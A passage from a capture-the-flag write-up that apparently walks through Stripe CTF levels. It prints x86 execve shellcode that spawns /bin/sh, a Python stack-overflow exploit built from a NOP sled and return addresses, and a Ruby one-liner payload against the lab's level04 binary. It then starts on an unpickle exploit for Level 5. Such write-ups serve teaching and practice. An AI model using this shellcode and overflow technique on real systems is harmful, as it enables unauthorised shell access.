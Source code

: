 Which in the little-endian representation is:
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
```


### Solving the Problem

Now, all we need to do is write a snippet in any language which takes that shellcode and some NOPs to overflow the stack of the *level04*'s' binary. We write the exploit in Python:

```py
import struct, subprocess

STACK = 0x0804857b
NOP = \x90
SHELLCODE = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"
EXPLOIT = NOP * (1024 - len(SHELLCODE)) + SHELLCODE

stack_ptr = struct.pack("<I", STACK) * 500
array = "%s%s" % (EXPLOIT, stack_ptr)

while 1:
 subprocess.call(["/levels/level04", array])
```
This solution is possible due to the [struct](https://docs.python.org/2/library/struct.html) module, which performs a conversion between Python and C values, and the [subprocess](https://docs.python.org/2/library/subprocess.html) module, which allows us to spawn new processes. The **struct.pack** method returns a string containing the values packet in the specified format (where **<** means little-endian and **I** is unsigned int).

A [one-line solution in Ruby](https://github.com/stripe-ctf), was given by Stripe and it's worth to mention:

```
$ ruby -e 'print "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x23\x41\x41\x41\x41\x42\x42\x42\x42" + "\x90"*987 + "\x7b\x85\x04\x08"'
```





---
## Level 5: Unpickle exploit

The fifth level is a uppercasing **web service** written in Python, which is split into an HTTP part, and a worker queue part.

In this service, a request can be sent with:

```
$ curl localhost:9020 -d 'banana'
{
 "processing_time": 5.0037501611238511e-06,
 "queue_time": 0.4377421910476061,
 "result": "BANANA"
}
```
